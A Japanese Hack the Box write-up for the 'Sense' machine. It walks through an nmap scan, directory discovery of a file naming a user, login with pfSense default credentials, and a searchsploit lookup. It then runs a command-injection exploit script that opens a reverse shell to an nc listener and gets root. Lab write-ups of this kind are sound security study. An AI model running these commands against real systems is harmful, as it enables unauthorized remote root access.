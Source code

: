 ```yaml
---
title: "【Hack the Box write-up】Sense"
date:  "2020-04-12T15:04:05+07:00"
author:
  - "さんぽし"
description: "【Hack the Box write-up】Sense"
draft: false
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```

## はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)
## cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

## machineについて
難易度は easy です。
![スクリーンショット 2020-04-12 15.16.04.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/186a9d13-f491-43cc-e7fe-7e8ddcd34db7.png)

OSCPlike な machine だそうです
https://www.netsecfocus.com/oscp/2019/03/29/The_Journey_to_Try_Harder-_TJNulls_Preparation_Guide_for_PWK_OSCP.html#vulnerable-machines

## nmap

```
kali@kali:~$ nmap -sC -sV  10.10.10.60
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-12 00:34 EDT
Nmap scan report for 10.10.10.60
Host is up (0.22s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.22 seconds
```

## 443ポートを見てみる
![スクリーンショット 2020-04-12 15.18.00.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/47820283-1e0a-2c66-01b8-630fd84fa73e.png)

こんな感じの login フォームが出てきます


## dirbuster
（途中までですが）

![スクリーンショット 2020-04-12 16.45.25.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/a4130212-d9ff-a0d8-3039-8067e2c6fbd2.png)
system-users.txt って言う怪しいのが出てきました

## system-users.txtを見る

```
####Support ticket###

Please create the following user

username: Rohit
password: company defaults
```

default の password は以下から pfsense だとわかります
https://docs.netgate.com/pfsense/en/latest/usermanager/pfsense-default-username-and-password.html

## login

login すると以下のようなページが出てきます
![スクリーンショット 2020-04-12 14.08.24.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/9d601c71-b74d-bca3-d869-1c1562be66ea.png)

これで pfsense の version が `2.1.3-release` だとわかります

## searchsploit

```
kali@kali:~$ searchsploit pfsense
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                        |  Path
                                                                                                                                      | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
pfSense - 'interfaces.php?if' Cross-Site Scripting                                                                                    | exploits/hardware/remote/35071.txt
pfSense - 'pkg.php?xml' Cross-Site Scripting                                                                                          | exploits/hardware/remote/35069.txt
pfSense - 'pkg_edit.php?id' Cross-Site Scripting                                                                                      | exploits/hardware/remote/35068.txt
pfSense - 'status_graph.php?if' Cross-Site Scripting                                                                                  | exploits/hardware/remote/35070.txt
pfSense - (Authenticated) Group Member Remote Command Execution (Metasploit)                                                          | exploits/unix/remote/43193.rb
pfSense 2 Beta 4 - 'graph.php' Multiple Cross-Site Scripting Vulnerabilities                                                          | exploits/php/remote/34985.txt
pfSense 2.0.1 - Cross-Site Scripting / Cross-Site Request Forgery / Remote Command Execution                                          | exploits/php/webapps/23901.txt
pfSense 2.1 build 20130911-1816 - Directory Traversal                                                                                 | exploits/php/webapps/31263.txt
pfSense 2.2 - Multiple Vulnerabilities                                                                                                | exploits/php/webapps/36506.txt
pfSense 2.2.5 - Directory Traversal                                                                                                   | exploits/php/webapps/39038.txt
pfSense 2.3.1_1 - Command Execution                                                                                                   | exploits/php/webapps/43128.txt
pfSense 2.3.2 - Cross-Site Scripting / Cross-Site Request Forgery                                                                     | exploits/php/webapps/41501.txt
pfSense 2.4.1 - Cross-Site Request Forgery Error Page Clickjacking (Metasploit)                                                       | exploits/php/remote/43341.rb
pfSense 2.4.4-p1 (HAProxy Package 0.59_14) - Persistent Cross-Site Scripting                                                          | exploits/php/webapps/46538.txt
pfSense 2.4.4-p1 - Cross-Site Scripting                                                                                               | exploits/multiple/webapps/46316.txt
pfSense 2.4.4-p3 (ACME Package 0.59_14) - Persistent Cross-Site Scripting                                                             | exploits/php/webapps/46936.txt
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                                                        | exploits/php/webapps/43560.py
pfSense Community Edition 2.2.6 - Multiple Vulnerabilities                                                                            | exploits/php/webapps/39709.txt
pfSense Firewall 2.2.5 - Config File Cross-Site Request Forgery                                                                       | exploits/php/webapps/39306.html
pfSense Firewall 2.2.6 - Services Cross-Site Request Forgery                                                                          | exploits/php/webapps/39695.txt
pfSense UTM Platform 2.0.1 - Cross-Site Scripting                                                                                     | exploits/freebsd/webapps/24439.txt
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result

```

`pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection `を試してみます

## exploit

```
$ python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.13 --lport 1212 --username rohit --password pfsense
```

```
kali@kali:~$ nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.60] 62626
sh: can't access tty; job control turned off
## whoami
root
```

一発で root まで取れてしまいました

## 終わりに
今回はかなり簡単な machine でした。
頑張って精進していきます

